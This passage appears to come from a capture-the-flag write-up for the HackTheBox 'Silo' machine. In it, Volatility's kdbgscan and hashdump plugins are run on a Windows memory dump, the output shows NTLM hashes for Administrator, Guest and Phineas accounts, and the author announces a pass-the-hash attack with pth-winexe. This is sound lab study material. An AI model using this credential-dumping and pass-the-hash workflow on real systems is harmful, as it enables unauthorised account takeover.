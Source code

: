 Then, I ran the `kdbgscan` module from the volatility framework


```
┌──(root㉿kali)-[/opt/volatility_2.6_lin64_standalone]
└─# ./volatility kdbgscan -f /home/kali/Desktop/HackTheBox/Windows-boxes/Silo/SILO-20180105-221806.dmp 
Volatility Foundation Volatility Framework 2.6
**************************************************
Instantiating KDBG using: Unnamed AS Win2012R2x64_18340 (6.3.9601 64bit)
Offset (V)                    : 0xf80078520a30
Offset (P)                    : 0x2320a30
KdCopyDataBlock (V)           : 0xf8007845f9b0
Block encoded                 : Yes
Wait never                    : 0xd08e8400bd4a143a
Wait always                   : 0x17a949efd11db80
KDBG owner tag check          : True
Profile suggestion (KDBGHeader): Win2012R2x64_18340
Version64                     : 0xf80078520d90 (Major: 15, Minor: 9600)
Service Pack (CmNtCSDVersion) : 0
Build string (NtBuildLab)     : 9600.16384.amd64fre.winblue_rtm.
PsActiveProcessHead           : 0xfffff80078537700 (51 processes)
PsLoadedModuleList            : 0xfffff800785519b0 (148 modules)
KernelBase                    : 0xfffff8007828a000 (Matches MZ: True)
Major (OptionalHeader)        : 6
Minor (OptionalHeader)        : 3
KPCR                          : 0xfffff8007857b000 (CPU 0)
KPCR                          : 0xffffd000207e8000 (CPU 1)

**************************************************
...
```

The above mentioned profile works with other commands, so it seems to fit. After some playing around, the `Win2012R2x64` actually fits better, so we’ll work with that.

Volatility has a [long list of plugins](https://github.com/volatilityfoundation/volatility/wiki/Command-Reference) we can use.

After a bunch of enumeration, found hashes in the `memory dump`. First we’ll need to get offsets for the registry hives in memory, and then we can use the `hashdump` plugin:

```
┌──(root㉿kali)-[/opt/volatility_2.6_lin64_standalone]
└─# ./volatility -f /home/kali/Desktop/HackTheBox/Windows-boxes/Silo/SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump
Volatility Foundation Volatility Framework 2.6
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::
```

Now that I got the hashes, I can do a `Pass the Hash` attack using a pre-installed kali tool, `pth-winexe`
